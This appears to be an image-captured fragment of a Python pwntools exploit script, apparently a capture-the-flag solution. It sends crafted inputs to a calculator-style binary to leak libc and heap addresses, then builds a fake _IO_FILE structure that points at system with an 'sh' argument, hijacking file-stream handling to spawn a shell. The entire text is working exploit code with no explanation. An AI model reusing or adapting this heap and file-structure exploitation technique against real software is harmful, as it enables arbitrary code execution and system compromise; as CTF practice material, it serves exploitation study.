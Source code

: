 ```py
# libc leak lower, we need to prevent unsorted bin consolidation

p.recvuntil("--- Enter code ---\n")
for i in range(0x210):
    p.sendline("0")
p.sendline("add")

for i in range(0x211):
    p.sendline("add")

p.sendline("4113")

p.sendline("add")
p.sendline("mul")
p.sendline("add")


for i in range(0x1fc):
    p.sendline("mul")
p.sendline("add")
p.sendline("end")
p.recvuntil("Result: ")
libc_lower = int(p.recvline().strip())
if libc_lower < 0:
    libc_lower += 0x100000000
log.info("libc_lower: " + hex(libc_lower))
libc_leak = (libc_upper << 32) | libc_lower
log.info("libc_leak: " + hex(libc_leak))
libc_base = libc_leak - 0x203b20
log.info("libc_base: " + hex(libc_base))
log.info("heap_base: " + hex(heap_base))

# stuff io_file somewhere

p.recvuntil("--- Enter code ---\n")
for i in range(4):
    p.sendline("0")
fake_io_addr = heap_base + 0x740 # TODO
system_addr = libc_base + libc.symbols["system"]

fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x205700)
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x202228+libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)

fake_io_bytes = fake_io_file

for i in range(0, len(fake_io_bytes), 4):
    num = u32(fake_io_bytes[i:i+4])
    if num > 0x7fffffff:
        num -= 0x100000000
    p.sendline(str(num))
p.sendline("end")

```